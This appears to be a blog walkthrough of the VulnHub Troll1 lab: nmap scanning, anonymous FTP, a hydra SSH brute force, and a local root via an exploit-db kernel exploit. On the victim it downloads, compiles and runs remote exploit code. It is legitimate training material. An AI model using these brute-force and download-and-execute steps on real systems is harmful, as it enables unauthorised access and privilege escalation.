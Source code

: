 ```yaml
---
title: "VulnHub - Troll1 Walkthrough"
date: 2020-09-27
tags: [vulnhub, walkthrough]
header:
  image: "/images/troll1-thumbnail.jpg"
excerpt: "Walkthroughs"
---
```


# VulnHub- Troll1 Walkthrough

Hello, everyone. Today I will share the Boot to Root process in Troll1 vulnerable machine. I will share only the successful way. There will not a lot of information.

## Information Gathering

We are starting with a **Nmap scan** to find open ports and services.

```console
root@kali:~/Troll1# nmap -p- -T4 -A troll1.local  
...
PORT STATE SERVICE VERSION  
21/tcp open ftp vsftpd 3.0.2  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)  
|_-rwxrwxrwx 1 1000 0 8068 Aug 10 2014 lol.pcap [NSE: writeable]  
...
22/tcp open ssh OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)  
...  
80/tcp open http Apache httpd 2.4.7 ((Ubuntu))  
| http-robots.txt: 1 disallowed entry  
|_/secret  
|_http-server-header: Apache/2.4.7 (Ubuntu)  
...
```

## Enumeration

From the list, we can see that we have three open ports. FTP, SSH, and HTTP. Also, we have access to use **FTP** anonymously. We create a FTP session and download the only available file - `lol.pcap`.

```console
root@kali:~/Troll1# ftp 192.168.12.146  
...
Name (192.168.12.146:root): anonymous  
331 Please specify the password.  
Password:  password
...
ftp> dir  
...
-rwxrwxrwx 1 1000 0 8068 Aug 10 2014 lol.pcap  
...
ftp> get lol.pcap  
...
ftp>
```
From the `.pcap` extension, we understand that it is the traffic captured file. We open this file in **Wireshark** and Follow TCP Stream. From the captured traffic we found something, so I continue to analyze the traffic from `gedit`. There is a lot of messages in the traffic, but finally, I found one interesting folder. Also in this folder, there is a single file - `roflmao`. I download it and again open it in gedit.

```console
root@kali:~/Troll1# wget http://troll1.local/sup3rs3cr3tdirlol/roflmao
...
```

Then, I try to read it. It was a bin file so it is so hard to find something that is human-readable. Then I find this string. `Find address 0x0856BF to proceed` in the third line.

I check this folder in the browser and that's it. It is a folder that has two subfolders too. In of the subfolders there is a text file that contains usernames and the other one there is `Pass.txt` file and it is such a troll file.

I download usernames.

```console
root@kali:~/Troll1# wget http://troll1.local/0x0856BF/good_luck/which_one_lol.txt
```

## Exploitation
Then we will have a potential attack vector via SSH, so I try to get access from SSH Brute Force using **hydra**.

```console
root@kali:~/Troll1# cat which_one_lol.txt  
maleus  
ps-aux  
felux  
Eagle11  
genphlux  
usmc8892  
blawrg  
wytshadow  
vis1t0r  
overflow   
root@kali:~/Troll1# hydra -L which_one_lol.txt -p Pass.txt troll1.local ssh  
...
[22][ssh] host: troll1.local login: overflow password: Pass.txt  
...
```
Our proper account is overflow:Pass.txt. Then I make a SSH session to our victim.

```console
root@kali:~/Troll1# ssh overflow@192.168.12.146
root@kali:~/Troll1# ssh overflow@192.168.12.146  
overflow@192.168.12.146's password: Pass.txt
...
```

We are a simple user and we don't have root privileges. So I download **Linux-exploit-suggester**.

```console
$ bash  
overflow@troll:/$ cd /tmp/  
overflow@troll:/tmp$ wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
...
overflow@troll:/tmp$ chmod u+x linux-exploit-suggester.sh  
overflow@troll:/tmp$ ./linux-exploit-suggester.sh
```

## Privilege Escalation
I try the Dirty Cow 2 bug, but it doesn't work, so I try to gain root access using **Overlay** exploit for local privilege escalation.

```console
overflow@troll:/tmp$ wget https://www.exploit-db.com/download/37292  
...
overflow@troll:/tmp$ mv 37292 37292.c  
overflow@troll:/tmp$ gcc 37292.c -o exploit  
overflow@troll:/tmp$ ./exploit  
...
# bash  
root@troll:/tmp# whoami  
root  
root@troll:/tmp# cd /root/  
root@troll:/root# ls  
proof.txt  
root@troll:/root# cat proof.txt  
Good job, you did it!  


702a8c18d29c6f3ca0d99ef5712bfbdc  
root@troll:/root#
```
That's it! We have an access to `proof.txt`. Victory!
